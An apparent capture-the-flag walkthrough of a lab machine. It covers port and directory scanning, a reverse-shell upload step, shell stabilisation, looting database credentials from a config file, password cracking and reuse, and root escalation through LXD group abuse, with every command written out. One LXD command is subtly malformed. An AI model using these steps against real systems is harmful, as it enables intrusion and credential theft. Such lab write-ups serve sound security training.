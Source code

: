 # [Day 24] Special by DarkStar - The Trial Before Christmas

## Topics

- Client Side Filters
- Shell Upgrading and Stabilization
- MySQL Client
- Online Password Cracking
- Privilege Escalation with LXD

### 1. Scan the machine. What ports are open?
```
80, 65000
```
Do a simple nmap scan `nmap -sC -sV 10.10.x.x`

__nmap output:__
```
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
65000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Light Cycle
MAC Address: 02:69:BC:C9:25:45 (Unknown)
```

### 2. What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.
```
light cycle
```
Enter the Machine's IP address as well as poort 65000 `10.10.x.x:65000` into the browser

### 3. What is the name of the hidden php page?
```
uploads.php
```
Run a gobuster scan with the file extension of php `gobuster dir -u http://10.10.212.94:65000 -w /usr/share/wordlists/dirb/big.txt -x .php`

__found directories:__
```
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/api (Status: 301)
/assets (Status: 301)
/grid (Status: 301)
/index.php (Status: 200)
/server-status (Status: 403)
/uploads.php (Status: 200)
```

### 4. What is the name of the hidden directory where file uploads are saved?
```
grid
```

### 5. Bypass the filters. Upload and execute a reverse shell.

### 6. What is the value of the web.txt flag?

Thanks to the hint we know the folder where we can find the flag `/var/www/`. Cat the flag with `cat /var/www/web.txt`.

### 7. Upgrade and stabilize your shell. 

1. On the reverse shell, use `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Then run `export TERM=xterm`
3. Press Ctrl+Z to background the shell. This will return us to our terminal
4. In our terminal, run `stty raw -echo; fg`
5. Wait for a few seconds and you should get the reverse shell back

### 8. Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password
```
tron:IFightForTheUsers
```
1. Change your directory to /var/www/TheGrid/ `cd /var/www/TheGrid/`
2. Do `ls` to see all available directories. You can try and explore the different files and folders to see if you can find it. 
3. The folder containing the answer is __includes__ `cd includes/`
4. Do `ls` again
5. We see a bunch of php scripts, but one of them contains authorization credentials, `dbauth.php`. Just read the file with `cat dbauth.php`

### 9. Access the database and discover the encrypted credentials. What is the name of the database you find these in?
```
tron
```
1. Connect to the mysql db with `mysql -utron -p`
2. Enter the password `IFightForTheUsers`
3. Once we have acces to mysql, run `show databases;` 

### 10. Crack the password. What is it?
```
@computer@
```
1. Run `use tron;` to change databases.
2. Do `show tables;` to see what tables we have available.
3. Display all the information in the tables with `select * from users;`
4. Copy the password of the only user in the table
5. Paste it into a password cracking website like [CrackStation](https://crackstation.net/)

### 11. Use su to login to the newly discovered user by exploiting password reuse. 

1. Exit out of mysql with `exit`
2. switch users with `su flynn`
3. Type in the password `@computer@`

### 12. What is the value of the user.txt flag?

Thanks to the hint, we know it's located in `/home/flynn/`. We can just cat it out.

### 13. Check the user's groups. Which group can be leveraged to escalate privileges?
```
lxd
```
Run `id` to find the answer

### 14. Abuse this group to escalate privileges to root.

1. Make sure you have the Alpine image with `lxc image list`
2. Follow the sequence of commands explained in the dossier. Here they are:
    - `lxc init Alpine strongbad -c security.privileged=true`
    - `lxc config device add strongbad trogdor disk source=/ path/mnt/root recursive=true`
    - `lxc start strongbad`
    - `lxc exec strongbad /bin/sh`
3. We should get a shell back. Run `id` to make sure we are root.
4. Change directory `cd /mnt/root/root` to find the flag.

### 15. What is the value of the root.txt flag?

